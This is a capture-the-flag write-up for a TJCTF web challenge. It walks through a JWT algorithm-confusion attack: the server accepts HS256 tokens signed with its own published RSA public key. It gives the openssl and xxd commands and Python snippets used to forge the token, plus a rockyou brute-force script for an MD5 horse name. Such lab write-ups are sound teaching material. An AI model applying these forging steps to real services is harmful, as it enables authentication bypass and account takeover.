

**MOAR HORSE 4** 


**Category:** Web
**Concepts:** jwt, jwt algorithms, md5

**Problem Statement:**
It seems like the TJCTF organizers are secretly running an [underground virtual horse racing platform](https://moar_horse.tjctf.org/)! They call it 'Moar Horse 4'... See if you can get a flag from it!

*source included*
Source includes: server.py(flask), templates, pubkey.pem(public key)

**Hints**
None




The source is etremely helpful in this one. It reveals 2 things:
1. There is no check on the JWT algorithm while reading. While making the jwt, it uses RS256 algorithm(requires public-private key combination).
2. The horse speed is md5("Horse_" + horsename).

The horse to beat is MechaOmkar-YG6BPRJM. All the horses you can buy through the website generate hash value less than that of MechaOmkar.

The source code tells that the horsenames are taken from the JWT and there is no check on whether those horses are buy-able.

Part 1 Get the horsename: In order to win, I need to have my horse speed > that of MechaOmkar. I ran a python script over good ol' rockyou to do that and got `panchito00`

```python
import hashlib

words = open("rockyou.txt","r").read().split("\n")
for word in words:
	try:
		if int(hashlib.md5(("Horse_" + word).encode()).hexdigest(), 16) > 340282329007027273925800828829408515216:
			print(word)
			break
	except:
		continue
```
Part 2 Forge the JWT: Now I needed to find a way to include this horsename in my jwt and sign it. I had a look at the validate_token function in the source
```python
def validate_token(token):
    try:
        data = jwt.decode(token, PUBLIC_KEY)
        return all(attr in data for attr in ["user","is_omkar","money","horses"]), data
    except:
        return False, None
```
There it was! The function did not check for the token's algorithm and just decoded it based on the public key, and they gave me the public key.
So, I changed the algorithm from RS256 to HS256(easier, 256 bit single key needed to sign as opposed to pub-priv key pair in RS256) and added my panchito00 horse.

Then, to sign the token,
1. Convert the pubkey into ascii text:

 `cat pubkey.pem | xxd -p | tr -d "\\n"`


2. Generate signature:
 
 `echo -n <unsigned modified JWT> | openssl dgst -sha256 -mac HMAC -macopt hexkey:<ascii text of the pubkey from step 1>`

 But this signature is ascii

3. Convert signature from ascii to jwt format:

 `python -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('db3a1b760eec81e029704691f6780c4d1653d5d91688c24e59891e97342ee59f')).replace('=','')\")"`

4. Sign the token:
 Just append `<unsigned modified JWT>` with . followed by the signature generated.

(The key sigining procedure is much better explained [here](https://www.nccgroup.com/uk/about-us/newsroom-and-events/blogs/2019/january/jwt-attack-walk-through/))

Now, I replaced the website token with this forged token and my horse got added. Clicked race and my horse won, and I got the flag.


**FLAG:** tjctf{w0www_y0ur_h0rs3_is_f444ST!}


